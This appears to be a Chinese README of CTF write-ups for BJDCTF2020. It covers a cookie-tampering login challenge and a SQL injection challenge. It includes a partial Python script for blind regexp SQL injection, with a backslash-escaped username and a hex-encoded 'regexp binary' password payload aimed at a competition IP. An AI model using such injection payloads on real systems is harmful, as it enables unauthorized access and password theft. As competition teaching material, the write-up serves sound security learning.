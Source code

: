 # BJDCTF2020_March

> 本届BJDCTF由江苏科技大学、北京工业大学、西南民族大学、杭州师范大学、 江苏大学、湖南工业大学（排名不分先后）联合举办

**Notes:web题目easyaspnet需要在windows server 2016 docker native container 环境下 build 和 run**

# web

## Schrödinger - imagin

**tags:**

1. 查看源码
2. 时间戳
3. 修改cookie

打开网页，发现是个 login fucker，推测题目的意思是找一个能 fuck 的 login page，查看源码发现有一行白色的字体不显示，提示有 test.php，访问发现是个登录框。将 `http://localhost/test.php` 提交，发现网站貌似开始了爆破，但是爆破成功率却涨的很慢。查看 cookie 发现有个 `base64` 的 cookie 很可疑，decode 一下发现是提交时的时间戳。 

![图片一](https://uploader.shimo.im/f/ovITnY12MI8z2Hgn.png!thumbnail)


将该 cookie 直接置空，刷新页面就发现成功率接近百分之百，check 一下得到爆破的结果.

![图片2](https://uploader.shimo.im/f/63c0quwSRtETMSgH.png!thumbnail)

![图片3](https://uploader.shimo.im/f/QzFD2j7lqMQSnBzh.png!thumbnail)

通过 av 号在 b 站找到对应的视频，根据时间戳翻评论区，即可得到 flag

![图片4](https://uploader.shimo.im/f/Z42uS0oi1Lg8p2Pd.png!thumbnail)

## GirlFriendSqlInjection - P3rh4ps

基础 regexp 盲注

有一个小 trick 密码是大小写混合的 所以要用 binary

```
import requests
// P3rh4ps tql!!!
url='http://39.106.207.66:2333/'
def str2hex(string):
    c='0x'
    a=''
    for i in string:
        a+=hex(ord(i))
    return c+a.replace('0x','')
alphabet = ['!','[',']','{','}','_','/','-','&',"%",'#','@','a','b','c','d','e','f','g','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','G','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']


flag='^'
for i in range(0,20):
    for y in alphabet:
        tmp=flag+y
        data = {
            "username": "P3rh4ps\\",
            "password": "||password regexp binary {}#".format(str2hex(tmp))
        }
   #     print(data['password'])
```